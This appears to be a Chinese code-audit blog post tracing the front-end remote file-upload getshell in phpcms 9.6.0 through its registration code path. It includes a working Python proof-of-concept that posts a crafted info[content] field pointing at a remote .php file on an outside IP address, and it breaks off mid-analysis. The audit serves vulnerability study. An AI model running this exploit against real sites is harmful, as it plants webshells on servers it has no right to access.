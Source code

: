 # 前言
上一节我们分析了phpcms的后台get shell， 但是众所周知， 开发者对后台的漏洞
是不太上心的。因为管理员账号一般只有网站所有者才会有，如果入侵者能获取到管理员
账号，那么基本上意味着网站的所有信息都为他打开了大门，后台漏洞也就不那么重要了。  
那么今天要分析的是phpccms 9.6.0版本的前台get shell. 漏洞的利用方式极其简单。
但是相对而言，代码的漏洞实现逻辑就没有前一篇文章那么简易明了了。

# POC
先看一下POC：  
```
import re
import requests

def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '<img src=http://39.96.176.223/one.txt.php#.jpg>',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)
```
非常简单。如果对phpcms有基本的了解的话，可以从url里看出，这其实就是会员的注册
操作。   
好的，那么到phpcms/modules/member/index.php 找到register函数， 一路看下来，
一直到：  
```
if($member_setting['choosemodel']) {
    require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
    $member_input = new member_input($userinfo['modelid']);		
    $_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
    $user_model_info = $member_input->get($_POST['info']);				        				
}
```
我们看到$_POST['info']在这里被处理过了， 跟进到"new_html_special_chars"函数：  
phpcms/libs/functions/global.func.php 第37行
```
function new_html_special_chars($string) {
	$encoding = 'utf-8';
	if(strtolower(CHARSET)=='gbk') $encoding = 'ISO-8859-15';
	if(!is_array($string)) return htmlspecialchars($string,ENT_QUOTES,$encoding);
	foreach($string as $key => $val) $string[$key] = new_html_special_chars($val);
	return $string;
}
```
可以看出， 函数对$_POST['info']进行了html实体转换处理。  
好，到下一行， 跳转到$member_input->get函数:  
caches/caches_model/caches_data/member_input.class.php 20行  
```
function get($data) {
    $this->data = $data = trim_script($data);
    $model_cache = getcache('member_model', 'commons');
    $this->db->table_name = $this->db_pre.$model_cache[$this->modelid]['tablename'];

    $info = array();
    $debar_filed = array('catid','title','style','thumb','status','islink','description');
    if(is_array($data)) {
        foreach($data as $field=>$value) {
            if($data['islink']==1 && !in_array($field,$debar_filed)) continue;
            $field = safe_replace($field);
            $name = $this->fields[$field]['name'];
            $minlength = $this->fields[$field]['minlength'];
            $maxlength = $this->fields[$field]['maxlength'];
            $pattern = $this->fields[$field]['pattern'];
            $errortips = $this->fields[$field]['errortips'];
            if(empty($errortips)) $errortips = "$name 不符合要求！";
            $length = empty($value) ? 0 : strlen($value);
            if($minlength && $length < $minlength && !$isimport) showmessage("$name 不得少于 $minlength 个字符！");
            if (!array_key_exists($field, $this->fields)) showmessage('模型中不存在'.$field.'字段');
            if($maxlength && $length > $maxlength && !$isimport) {
                showmessage("$name 不得超过 $maxlength 个字符！");
            } else {
                str_cut($value, $maxlength);
            }
            if($pattern && $length && !preg_match($pattern, $value) && !$isimport) showmessage($errortips);
            if($this->fields[$field]['isunique'] && $this->db->get_one(array($field=>$value),$field) && ROUTE_A != 'edit') showmessage("$name 的值不得重复！");
            $func = $this->fields[$field]['formtype'];
            if(method_exists($this, $func)) $value = $this->$func($field, $value);

            $info[$field] = $value;
        }
    }
    return $info;
}
```
可以看到这个函数主要对注册的字段进行了一些限制，如果不符合的话就返回“操作失败”。
一直到这一行：  
```
$func = $this->fields[$field]['formtype'];
if(method_exists($this, $func)) $value = $this->$func($field, $value);
```
说实话这里确实不太好懂，特别是对我这种对php不太熟悉的人来说。不过可以大概看出它是判断此类
有没有这个函数，如果有的话就执行。再看下$this->fields从哪儿来：  
```
 function __construct($modelid) {
    $this->db = pc_base::load_model('sitemodel_field_model');
    $this->db_pre = $this->db->db_tablepre;
    $this->modelid = $modelid;
    $this->fields = getcache('model_field_'.$modelid,'model');
    }
```
在构造函数里面， getcache是从某个数据库model实例化的文件取出值来。那么去找原始的数据库语句，
在install_package/install/main/phpcms_db.sql里面， 找到"model_field_":  
![sql](https://raw.githubusercontent.com/greatyy/codeAudit/master/codeaudit101/imgs/string2array.PNG)